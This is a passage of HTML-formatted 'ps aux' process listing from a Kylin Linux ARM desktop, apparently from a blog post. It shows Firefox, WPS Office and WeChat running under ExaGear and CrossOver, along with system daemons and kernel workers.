class="number">0.0</span>  <span class="number">0.0</span> <span class="number">243604</span>  <span class="number">6740</span> ?        SLl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/gnome-keyring-daemon --start --foreground --components=secrets</span><br><span class="line">admin       <span class="number">5330</span>  <span class="number">1.4</span>  <span class="number">1.7</span> <span class="number">2648044</span> <span class="number">136564</span> ?      Sl   <span class="number">15</span>:<span class="number">14</span>   <span class="number">0</span>:<span class="number">18</span> /usr/bin/peony</span><br><span class="line">admin       <span class="number">5361</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">317512</span>  <span class="number">7148</span> ?        Sl   <span class="number">15</span>:<span class="number">14</span>   <span class="number">0</span>:<span class="number">00</span> /usr/libexec/gvfsd-recent --spawner :<span class="number">1.35</span> /org/gtk/gvfs/exec_spaw/<span class="number">5</span></span><br><span class="line">root        <span class="number">6158</span>  <span class="number">0.0</span>  <span class="number">0.2</span> <span class="number">193484</span> <span class="number">20808</span> ?        Sl   <span class="number">15</span>:<span class="number">14</span>   <span class="number">0</span>:<span class="number">01</span> /usr/bin/python3 /usr/bin/kylin-assistant-systemdaemon.py</span><br><span class="line">admin       <span class="number">7020</span>  <span class="number">0.0</span>  <span class="number">0.1</span> <span class="number">456288</span> <span class="number">15236</span> ?        Sl   <span class="number">15</span>:<span class="number">14</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/kylin-cloud-sync</span><br><span class="line">admin       <span class="number">7108</span>  <span class="number">1.6</span>  <span class="number">1.2</span> <span class="number">481688</span> <span class="number">101256</span> ?       Ssl  <span class="number">15</span>:<span class="number">14</span>   <span class="number">0</span>:<span class="number">20</span> /usr/bin/kylin-software-center-plugin-synchrodata</span><br><span class="line">admin       <span class="number">7113</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        Z    <span class="number">15</span>:<span class="number">14</span>   <span class="number">0</span>:<span class="number">00</span> [sh] &lt;defunct&gt;</span><br><span class="line">admin       <span class="number">7117</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        Z    <span class="number">15</span>:<span class="number">14</span>   <span class="number">0</span>:<span class="number">00</span> [sh] &lt;defunct&gt;</span><br><span class="line">admin       <span class="number">7143</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        Z    <span class="number">15</span>:<span class="number">14</span>   <span class="number">0</span>:<span class="number">00</span> [sh] &lt;defunct&gt;</span><br><span class="line">admin       <span class="number">7481</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        Z    <span class="number">15</span>:<span class="number">15</span>   <span class="number">0</span>:<span class="number">00</span> [sh] &lt;defunct&gt;</span><br><span class="line">admin       <span class="number">7483</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        Z    <span class="number">15</span>:<span class="number">15</span>   <span class="number">0</span>:<span class="number">00</span> [sh] &lt;defunct&gt;</span><br><span class="line">admin       <span class="number">7485</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        Z    <span class="number">15</span>:<span class="number">15</span>   <span class="number">0</span>:<span class="number">00</span> [sh] &lt;defunct&gt;</span><br><span class="line">admin       <span class="number">9890</span>  <span class="number">2.5</span>  <span class="number">4.9</span> <span class="number">3149976</span> <span class="number">390424</span> ?      Sl   <span class="number">15</span>:<span class="number">16</span>   <span class="number">0</span>:<span class="number">29</span> /usr/lib/firefox-esr/firefox-esr</span><br><span class="line">root       <span class="number">10028</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">316324</span>  <span class="number">7080</span> ?        Ssl  <span class="number">15</span>:<span class="number">16</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/ModemManager --filter-policy=strict</span><br><span class="line">admin      <span class="number">10159</span>  <span class="number">0.3</span>  <span class="number">1.4</span> <span class="number">2467328</span> <span class="number">116172</span> ?      Sl   <span class="number">15</span>:<span class="number">16</span>   <span class="number">0</span>:<span class="number">03</span> /usr/lib/firefox-esr/firefox-esr -contentproc -childID <span class="number">1</span> -isForBrowser -prefsLen <span class="number">1</span> -prefMapSize <span class="number">212925</span> -parentBuildID <span class="number">20201207224150</span> -appdir /usr/lib/firefox-esr/browser <span class="number">9890</span> tab</span><br><span class="line">admin      <span class="number">10553</span>  <span class="number">0.4</span>  <span class="number">2.4</span> <span class="number">2603848</span> <span class="number">194984</span> ?      Sl   <span class="number">15</span>:<span class="number">16</span>   <span class="number">0</span>:<span class="number">05</span> /usr/lib/firefox-esr/firefox-esr -contentproc -childID <span class="number">4</span> -isForBrowser -prefsLen <span class="number">9817</span> -prefMapSize <span class="number">212925</span> -parentBuildID <span class="number">20201207224150</span> -appdir /usr/lib/firefox-esr/browser <span class="number">9890</span> tab</span><br><span class="line">admin      <span class="number">10682</span>  <span class="number">1.0</span>  <span class="number">2.5</span> <span class="number">2631752</span> <span class="number">199336</span> ?      Sl   <span class="number">15</span>:<span class="number">16</span>   <span class="number">0</span>:<span class="number">11</span> /usr/lib/firefox-esr/firefox-esr -contentproc -childID <span class="number">5</span> -isForBrowser -prefsLen <span class="number">9951</span> -prefMapSize <span class="number">212925</span> -parentBuildID <span class="number">20201207224150</span> -appdir /usr/lib/firefox-esr/browser <span class="number">9890</span> tab</span><br><span class="line">admin      <span class="number">10990</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">317132</span>  <span class="number">6624</span> ?        Sl   <span class="number">15</span>:<span class="number">16</span>   <span class="number">0</span>:<span class="number">00</span> /usr/libexec/gvfsd-burn --spawner :<span class="number">1.35</span> /org/gtk/gvfs/exec_spaw/<span class="number">6</span></span><br><span class="line">root       <span class="number">13048</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">77536</span>  <span class="number">1944</span> ?        Ss   <span class="number">15</span>:<span class="number">18</span>   <span class="number">0</span>:<span class="number">00</span> gpg-agent --homedir <span class="comment">//.gnupg --use-standard-socket --daemon</span></span><br><span class="line">root       <span class="number">13731</span>  <span class="number">0.3</span>  <span class="number">1.0</span> <span class="number">189712</span> <span class="number">82084</span> ?        SNl  <span class="number">15</span>:<span class="number">19</span>   <span class="number">0</span>:<span class="number">03</span> /usr/bin/python3 /usr/sbin/aptd</span><br><span class="line">admin      <span class="number">15937</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">12284</span>  <span class="number">3072</span> ?        S    <span class="number">15</span>:<span class="number">23</span>   <span class="number">0</span>:<span class="number">00</span> /bin/bash /usr/bin/wps /media/admin/RyanWS/<span class="number">6</span>-扶贫办/工作交接清单/~$账号密码.doc</span><br><span class="line">admin      <span class="number">15946</span> <span class="number">12.4</span>  <span class="number">4.6</span> <span class="number">848116</span> <span class="number">367052</span> ?       Sl   <span class="number">15</span>:<span class="number">23</span>   <span class="number">1</span>:<span class="number">25</span> /opt/kingsoft/wps-office/office6/wps /media/admin/RyanWS/<span class="number">6</span>-扶贫办/工作交接清单/~$账号密码.doc</span><br><span class="line">admin      <span class="number">16128</span>  <span class="number">0.5</span>  <span class="number">1.9</span> <span class="number">2567332</span> <span class="number">153576</span> ?      Sl   <span class="number">15</span>:<span class="number">23</span>   <span class="number">0</span>:<span class="number">03</span> /opt/kingsoft/wps-office/office6/wpscloudsvr /qingbangong /start_from=kstartpage silentautologin</span><br><span class="line">root       <span class="number">16860</span>  <span class="number">0.1</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">23</span>   <span class="number">0</span>:<span class="number">01</span> [kworker/u16:<span class="number">2</span>-memlat_wq]</span><br><span class="line">root       <span class="number">16913</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">24</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">4</span>:<span class="number">0</span>-events]</span><br><span class="line">root       <span class="number">16950</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">24</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">3</span>:<span class="number">0</span>-events]</span><br><span class="line">root       <span class="number">16998</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">24</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">1</span>:<span class="number">2</span>-mm_percpu_wq]</span><br><span class="line">root       <span class="number">17281</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">24</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">7</span>:<span class="number">0</span>-pm]</span><br><span class="line">root       <span class="number">17570</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">25</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">5</span>:<span class="number">2</span>-cgroup_destroy]</span><br><span class="line">admin      <span class="number">19415</span>  <span class="number">2.3</span>  <span class="number">0.2</span> <span class="number">35088300</span> <span class="number">23072</span> ?      Ss   <span class="number">15</span>:<span class="number">26</span>   <span class="number">0</span>:<span class="number">12</span> /opt/exagear/bin/ubt_x64a64_al_mem39 --path-prefix /opt/exagear/images/kylin-x86_64 --utmp-paths-list /opt/exagear/images/kylin-x86_64/.exagear/utmp-list --vpaths-list /opt/exagear/images/kylin-x86_64/.exagear/vpaths-list --opaths-list /opt/exagear/images/kylin-x86_64/.exagear/opaths-list --use-binfmt_misc --smo-mode fbase --smo-severity smart --bolt-socket /opt/exagear/run/exagear.bolt.socket --hifd-start <span class="number">8192</span> --bolt-mode none --foreign-ubt-binary /opt/exagear/bin/ubt_x32a64_al_mem39 -f /opt/cxoffice21/bin/wineserver64 --rlimit-nofile-guest <span class="number">8192</span>,<span class="number">8192</span> -- /opt/cxoffice21/bin/wineserver</span><br><span class="line">admin      <span class="number">19421</span>  <span class="number">0.0</span>  <span class="number">0.5</span> <span class="number">71282236</span> <span class="number">42496</span> ?      Ssl  <span class="number">15</span>:<span class="number">26</span>   <span class="number">0</span>:<span class="number">00</span> /opt/exagear/bin/ubt_x32a64_al_mem39 --path-prefix /opt/exagear/images/kylin-x86_64 --utmp-paths-list /opt/exagear/images/kylin-x86_64/.exagear/utmp-list --vpaths-list /opt/exagear/images/kylin-x86_64/.exagear/vpaths-list --opaths-list /opt/exagear/images/kylin-x86_64/.exagear/opaths-list --use-binfmt_misc --smo-mode fbase --smo-severity smart --bolt-socket /opt/exagear/run/exagear.bolt.socket --hifd-start <span class="number">8192</span> --bolt-mode none --foreign-ubt-binary /opt/exagear/bin/ubt_x64a64_al_mem39 -f /opt/cxoffice21/bin/wine-preloader --rlimit-nofile-guest <span class="number">8192</span>,<span class="number">8192</span> -- /opt/cxoffice21/bin/wine-preloader /opt/cxoffice21/bin/wineloader C:\windows\system32\services.exe</span><br><span class="line">admin      <span class="number">19424</span>  <span class="number">1.1</span>  <span class="number">0.6</span> <span class="number">71286624</span> <span class="number">53072</span> ?      Sl   <span class="number">15</span>:<span class="number">26</span>   <span class="number">0</span>:<span class="number">06</span> /opt/exagear/bin/ubt_x32a64_al_mem39 --path-prefix /opt/exagear/images/kylin-x86_64 --utmp-paths-list /opt/exagear/images/kylin-x86_64/.exagear/utmp-list --vpaths-list /opt/exagear/images/kylin-x86_64/.exagear/vpaths-list --opaths-list /opt/exagear/images/kylin-x86_64/.exagear/opaths-list --use-binfmt_misc --smo-mode fbase --smo-severity smart --bolt-socket /opt/exagear/run/exagear.bolt.socket --hifd-start <span class="number">8192</span> --bolt-mode none --foreign-ubt-binary /opt/exagear/bin/ubt_x64a64_al_mem39 -f /opt/cxoffice21/bin/wine-preloader --rlimit-nofile-guest <span class="number">8192</span>,<span class="number">8192</span> -- /opt/cxoffice21/bin/wine-preloader /opt/cxoffice21/bin/wineloader C:\windows\system32\winedevice.exe</span><br><span class="line">admin      <span class="number">19445</span>  <span class="number">1.4</span>  <span class="number">0.5</span> <span class="number">71281220</span> <span class="number">43432</span> ?      Sl   <span class="number">15</span>:<span class="number">26</span>   <span class="number">0</span>:<span class="number">07</span> /opt/exagear/bin/ubt_x32a64_al_mem39 --path-prefix /opt/exagear/images/kylin-x86_64 --utmp-paths-list /opt/exagear/images/kylin-x86_64/.exagear/utmp-list --vpaths-list /opt/exagear/images/kylin-x86_64/.exagear/vpaths-list --opaths-list /opt/exagear/images/kylin-x86_64/.exagear/opaths-list --use-binfmt_misc --smo-mode fbase --smo-severity smart --bolt-socket /opt/exagear/run/exagear.bolt.socket --hifd-start <span class="number">8192</span> --bolt-mode none --foreign-ubt-binary /opt/exagear/bin/ubt_x64a64_al_mem39 -f /opt/cxoffice21/bin/wine-preloader --rlimit-nofile-guest <span class="number">8192</span>,<span class="number">8192</span> -- /opt/cxoffice21/bin/wine-preloader /opt/cxoffice21/bin/wineloader C:\windows\system32\winedevice.exe</span><br><span class="line">admin      <span class="number">19461</span>  <span class="number">0.3</span>  <span class="number">0.6</span> <span class="number">71284756</span> <span class="number">50384</span> ?      Sl   <span class="number">15</span>:<span class="number">26</span>   <span class="number">0</span>:<span class="number">02</span> /opt/exagear/bin/ubt_x32a64_al_mem39 --path-prefix /opt/exagear/images/kylin-x86_64 --utmp-paths-list /opt/exagear/images/kylin-x86_64/.exagear/utmp-list --vpaths-list /opt/exagear/images/kylin-x86_64/.exagear/vpaths-list --opaths-list /opt/exagear/images/kylin-x86_64/.exagear/opaths-list --use-binfmt_misc --smo-mode fbase --smo-severity smart --bolt-socket /opt/exagear/run/exagear.bolt.socket --hifd-start <span class="number">8192</span> --bolt-mode none --foreign-ubt-binary /opt/exagear/bin/ubt_x64a64_al_mem39 -f /opt/cxoffice21/bin/wine-preloader --rlimit-nofile-guest <span class="number">8192</span>,<span class="number">8192</span> -- /opt/cxoffice21/bin/wine-preloader /opt/cxoffice21/bin/wineloader C:\windows\system32\plugplay.exe</span><br><span class="line">admin      <span class="number">19493</span>  <span class="number">0.0</span>  <span class="number">0.3</span> <span class="number">71274936</span> <span class="number">29700</span> ?      Sl   <span class="number">15</span>:<span class="number">26</span>   <span class="number">0</span>:<span class="number">00</span> /opt/exagear/bin/ubt_x32a64_al_mem39 --path-prefix /opt/exagear/images/kylin-x86_64 --utmp-paths-list /opt/exagear/images/kylin-x86_64/.exagear/utmp-list --vpaths-list /opt/exagear/images/kylin-x86_64/.exagear/vpaths-list --opaths-list /opt/exagear/images/kylin-x86_64/.exagear/opaths-list --use-binfmt_misc --smo-mode fbase --smo-severity smart --bolt-socket /opt/exagear/run/exagear.bolt.socket --hifd-start <span class="number">8192</span> --bolt-mode none --foreign-ubt-binary /opt/exagear/bin/ubt_x64a64_al_mem39 -f /opt/cxoffice21/bin/wine-preloader --rlimit-nofile-guest <span class="number">8192</span>,<span class="number">8192</span> -- /opt/cxoffice21/bin/wine-preloader /opt/cxoffice21/bin/wineloader C:\windows\system32\svchost.exe -k LocalServiceNetworkRestricted</span><br><span class="line">admin      <span class="number">19514</span>  <span class="number">0.3</span>  <span class="number">1.0</span> <span class="number">2403352</span> <span class="number">82064</span> ?       Sl   <span class="number">15</span>:<span class="number">26</span>   <span class="number">0</span>:<span class="number">01</span> /usr/lib/firefox-esr/firefox-esr -contentproc -childID <span class="number">8</span> -isForBrowser -prefsLen <span class="number">12768</span> -prefMapSize <span class="number">212925</span> -parentBuildID <span class="number">20201207224150</span> -appdir /usr/lib/firefox-esr/browser <span class="number">9890</span> tab</span><br><span class="line">admin      <span class="number">19564</span>  <span class="number">0.1</span>  <span class="number">0.8</span> <span class="number">71319428</span> <span class="number">67520</span> ?      Sl   <span class="number">15</span>:<span class="number">26</span>   <span class="number">0</span>:<span class="number">00</span> /opt/exagear/bin/ubt_x32a64_al_mem39 --path-prefix /opt/exagear/images/kylin-x86_64 --utmp-paths-list /opt/exagear/images/kylin-x86_64/.exagear/utmp-list --vpaths-list /opt/exagear/images/kylin-x86_64/.exagear/vpaths-list --opaths-list /opt/exagear/images/kylin-x86_64/.exagear/opaths-list --use-binfmt_misc --smo-mode fbase --smo-severity smart --bolt-socket /opt/exagear/run/exagear.bolt.socket --hifd-start <span class="number">8192</span> --bolt-mode none --foreign-ubt-binary /opt/exagear/bin/ubt_x64a64_al_mem39 -f /opt/cxoffice21/bin/wine-preloader --rlimit-nofile-guest <span class="number">8192</span>,<span class="number">8192</span> -- /opt/cxoffice21/bin/wine-preloader /opt/cxoffice21/bin/wineloader C:\windows\system32\explorer.exe /desktop</span><br><span class="line">admin      <span class="number">19592</span>  <span class="number">0.0</span>  <span class="number">0.4</span> <span class="number">71279236</span> <span class="number">37204</span> ?      Sl   <span class="number">15</span>:<span class="number">26</span>   <span class="number">0</span>:<span class="number">00</span> /opt/exagear/bin/ubt_x32a64_al_mem39 --path-prefix /opt/exagear/images/kylin-x86_64 --utmp-paths-list /opt/exagear/images/kylin-x86_64/.exagear/utmp-list --vpaths-list /opt/exagear/images/kylin-x86_64/.exagear/vpaths-list --opaths-list /opt/exagear/images/kylin-x86_64/.exagear/opaths-list --use-binfmt_misc --smo-mode fbase --smo-severity smart --bolt-socket /opt/exagear/run/exagear.bolt.socket --hifd-start <span class="number">8192</span> --bolt-mode none --foreign-ubt-binary /opt/exagear/bin/ubt_x64a64_al_mem39 -f /opt/cxoffice21/bin/wine-preloader --rlimit-nofile-guest <span class="number">8192</span>,<span class="number">8192</span> -- /opt/cxoffice21/bin/wine-preloader /opt/cxoffice21/bin/wineloader C:\windows\system32\rpcss.exe</span><br><span class="line">admin      <span class="number">19667</span> <span class="number">15.7</span>  <span class="number">6.9</span> <span class="number">70815256</span> <span class="number">552472</span> ?     SLsl <span class="number">15</span>:<span class="number">26</span>   <span class="number">1</span>:<span class="number">23</span> /opt/exagear/bin/ubt_x32a64_al_mem39 --path-prefix /opt/exagear/images/kylin-x86_64 --utmp-paths-list /opt/exagear/images/kylin-x86_64/.exagear/utmp-list --vpaths-list /opt/exagear/images/kylin-x86_64/.exagear/vpaths-list --opaths-list /opt/exagear/images/kylin-x86_64/.exagear/opaths-list --use-binfmt_misc --smo-mode fbase --smo-severity smart --bolt-socket /opt/exagear/run/exagear.bolt.socket --hifd-start <span class="number">8192</span> --bolt-mode none --foreign-ubt-binary /opt/exagear/bin/ubt_x64a64_al_mem39 -f /opt/cxoffice21/bin/wine-preloader --rlimit-nofile-guest <span class="number">8192</span>,<span class="number">8192</span> -- /opt/cxoffice21/bin/wine-preloader /opt/cxoffice21/bin/wineloader C:\Program Files\Tencent\WeChat\WeChat.exe</span><br><span class="line">admin      <span class="number">19715</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">12152</span>  <span class="number">3000</span> ?        S    <span class="number">15</span>:<span class="number">26</span>   <span class="number">0</span>:<span class="number">00</span> /bin/bash /opt/kwre/apps/wechat/run_k1.sh</span><br><span class="line">root       <span class="number">19836</span>  <span class="number">0.6</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">26</span>   <span class="number">0</span>:<span class="number">03</span> [kworker/u17:<span class="number">1</span>-mali_jd]</span><br><span class="line">admin      <span class="number">19855</span>  <span class="number">0.2</span>  <span class="number">1.4</span> <span class="number">70465152</span> <span class="number">112224</span> ?     Sl   <span class="number">15</span>:<span class="number">26</span>   <span class="number">0</span>:<span class="number">01</span> /opt/exagear/bin/ubt_x32a64_al_mem39 --path-prefix /opt/exagear/images/kylin-x86_64 --utmp-paths-list /opt/exagear/images/kylin-x86_64/.exagear/utmp-list --vpaths-list /opt/exagear/images/kylin-x86_64/.exagear/vpaths-list --opaths-list /opt/exagear/images/kylin-x86_64/.exagear/opaths-list --use-binfmt_misc --smo-mode fbase --smo-severity smart --bolt-socket /opt/exagear/run/exagear.bolt.socket --hifd-start <span class="number">8192</span> --bolt-mode none --foreign-ubt-binary /opt/exagear/bin/ubt_x64a64_al_mem39 -f /opt/cxoffice21/bin/wine-preloader --rlimit-nofile-guest <span class="number">8192</span>,<span class="number">8192</span> -- /opt/cxoffice21/bin/wine-preloader /opt/cxoffice21/bin/wineloader C:\users\crossover\Application Data\Tencent\WeChat\XPlugin\Plugins\ThumbPlayer\<span class="number">3314</span>\extracted\WeChatPlayer.exe --wechat_pid=<span class="number">248</span> --process_name=ThumbPlayer --xlog_path=C:\users\CROS~MYY\APPL~JHT\Tencent\WeChat\log\player --xlog_prefix=player</span><br><span class="line">admin      <span class="number">20103</span>  <span class="number">0.9</span>  <span class="number">4.2</span> <span class="number">70514336</span> <span class="number">335204</span> ?     Sl   <span class="number">15</span>:<span class="number">26</span>   <span class="number">0</span>:<span class="number">04</span> /opt/exagear/bin/ubt_x32a64_al_mem39 --path-prefix /opt/exagear/images/kylin-x86_64 --utmp-paths-list /opt/exagear/images/kylin-x86_64/.exagear/utmp-list --vpaths-list /opt/exagear/images/kylin-x86_64/.exagear/vpaths-list --opaths-list /opt/exagear/images/kylin-x86_64/.exagear/opaths-list --use-binfmt_misc --smo-mode fbase --smo-severity smart --bolt-socket /opt/exagear/run/exagear.bolt.socket --hifd-start <span class="number">8192</span> --bolt-mode none --foreign-ubt-binary /opt/exagear/bin/ubt_x64a64_al_mem39 -f /opt/cxoffice21/bin/wine-preloader --rlimit-nofile-guest <span class="number">8192</span>,<span class="number">8192</span> -- /opt/cxoffice21/bin/wine-preloader /opt/cxoffice21/bin/wineloader C:\users\crossover\Application Data\Tencent\WeChat\XPlugin\Plugins\XWeb\<span class="number">702</span>\extracted\WeChatBrowser.exe --wechat_pid=<span class="number">248</span> --process_name=WebBrowser --enable-features=OverlayScrollbar --core_type=Xweb --locale_name=zh-CN --res_path=C:\users\crossover\Application Data\Tencent\WeChat\XPlugin\Plugins\XWeb\<span class="number">702</span>\extracted\ --locale_path=C:\users\crossover\Application Data\Tencent\WeChat\XPlugin\Plugins\XWeb\<span class="number">702</span>\extracted\locales --log_path=C:\users\CROS~MYY\APPL~JHT\Tencent\WeChat\log\xweb.log --sub_ua=MicroMessenger/<span class="number">7.0</span><span class="number">.20</span><span class="number">.1781</span>(<span class="number">0x6700143B</span>) WindowsWechat(<span class="number">0x63060012</span>) --xlog_path=C:\users\CROS~MYY\APPL~JHT\Tencent\WeChat\log\xweb --xlog_prefix=xweb --xweb-param=&#123; <span class="string">"reportId"</span>:<span class="number">1691</span>, <span class="string">"version"</span>:<span class="number">702</span> &#125; --log-severity=info</span><br><span class="line">root       <span class="number">21868</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">26</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">2</span>:<span class="number">2</span>-usb_hub_wq]</span><br><span class="line">root       <span class="number">27445</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">26</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">0</span>:<span class="number">0</span>-events]</span><br><span class="line">root       <span class="number">27789</span>  <span class="number">2.1</span>  <span class="number">0.0</span>  <span class="number">16356</span>  <span class="number">7112</span> ?        S    <span class="number">15</span>:<span class="number">27</span>   <span class="number">0</span>:<span class="number">09</span> /usr/sbin/activation-daemon</span><br><span class="line">root       <span class="number">36603</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">29</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">6</span>:<span class="number">0</span>-events]</span><br><span class="line">admin      <span class="number">37973</span>  <span class="number">0.7</span>  <span class="number">3.5</span> <span class="number">70499020</span> <span class="number">277944</span> ?     Ssl  <span class="number">15</span>:<span class="number">30</span>   <span class="number">0</span>:<span class="number">02</span> /opt/exagear/bin/ubt_x32a64_al_mem39 --path-prefix /opt/exagear/images/kylin-x86_64 --utmp-paths-list /opt/exagear/images/kylin-x86_64/.exagear/utmp-list --vpaths-list /opt/exagear/images/kylin-x86_64/.exagear/vpaths-list --opaths-list /opt/exagear/images/kylin-x86_64/.exagear/opaths-list --use-binfmt_misc --smo-mode fbase --smo-severity smart --bolt-socket /opt/exagear/run/exagear.bolt.socket --hifd-start <span class="number">8192</span> --bolt-mode none --foreign-ubt-binary /opt/exagear/bin/ubt_x64a64_al_mem39 -f /opt/cxoffice21/bin/wine-preloader --rlimit-nofile-guest <span class="number">8192</span>,<span class="number">8192</span> -- /opt/cxoffice21/bin/wine-preloader /opt/cxoffice21/bin/wineloader C:\users\crossover\Application Data\Tencent\WeChat\XPlugin\Plugins\XWeb\<span class="number">702</span>\extracted\WeChatBrowser.exe --type=renderer --<span class="built_in">auto</span>play-policy=no-user-gesture-required --field-trial-handle=<span class="number">608</span>,<span class="number">11238338704796692943</span>,<span class="number">12560982283073801602</span>,<span class="number">131072</span> --enable-features=CastMediaRouteProvider,OverlayScrollbar --disable-features=HardwareMediaKeyHandling,HistoryManipulationIntervention,OutOfBlinkCors --disable-gpu-compositing --lang=zh-CN --locales-dir-path=C:\users\crossover\Application Data\Tencent\WeChat\XPlugin\Plugins\XWeb\<span class="number">702</span>\extracted\locales --log-severity=info --resources-dir-path=C:\users\crossover\Application Data\Tencent\WeChat\XPlugin\Plugins\XWeb\<span class="number">702</span>\extracted\ --user-agent=Mozilla/<span class="number">5.0</span> (Windows NT <span class="number">6.1</span>; WOW64) AppleWebKit/<span class="number">537.36</span> (KHTML, like Gecko) Chrome/<span class="number">81.0</span><span class="number">.4044</span><span class="number">.138</span> Safari/<span class="number">537.36</span> NetType/WIFI MicroMessenger/<span class="number">7.0</span><span class="number">.20</span><span class="number">.1781</span>(<span class="number">0x6700143B</span>) WindowsWechat(<span class="number">0x63060012</span>) --disable-spell-checking --device-scale-factor=<span class="number">1</span> --num-raster-threads=<span class="number">4</span> --enable-main-frame-before-activation --renderer-client-id=<span class="number">4</span> --no-v8-untrusted-code-mitigations --mojo-platform-channel-handle=<span class="number">960</span> /prefetch:<span class="number">1</span></span><br><span class="line">root       <span class="number">38014</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">30</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">7</span>:<span class="number">2</span>-mm_percpu_wq]</span><br><span class="line">root       <span class="number">40498</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">30</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">4</span>:<span class="number">1</span>-events]</span><br><span class="line">root       <span class="number">45255</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">33</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">5</span>:<span class="number">0</span>-cgroup_destroy]</span><br><span class="line">admin      <span class="number">45314</span>  <span class="number">1.0</span>  <span class="number">0.8</span> <span class="number">602972</span> <span class="number">65552</span> ?        Ssl  <span class="number">15</span>:<span class="number">33</span>   <span class="number">0</span>:<span class="number">01</span> /usr/libexec/gnome-terminal-server</span><br><span class="line">admin      <span class="number">45321</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">13596</span>  <span class="number">4844</span> pts/<span class="number">0</span>    Ss   <span class="number">15</span>:<span class="number">33</span>   <span class="number">0</span>:<span class="number">00</span> bash</span><br><span class="line">root       <span class="number">45768</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">33</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">3</span>:<span class="number">2</span>-mm_percpu_wq]</span><br><span class="line">root       <span class="number">50119</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">33</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">2</span>:<span class="number">0</span>-mm_percpu_wq]</span><br><span class="line">root       <span class="number">50786</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">34</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">6</span>:<span class="number">1</span>-mm_percpu_wq]</span><br><span class="line">root       <span class="number">50815</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">34</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">0</span>:<span class="number">2</span>-events]</span><br><span class="line">root       <span class="number">50817</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">34</span>   <span class="number">0</span>:<span class="number">00</span> [scsi_eh_5]</span><br><span class="line">root       <span class="number">50818</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">34</span>   <span class="number">0</span>:<span class="number">00</span> [scsi_tmf_5]</span><br><span class="line">root       <span class="number">50870</span>  <span class="number">0.0</span>  <span class="number">0.0</span> 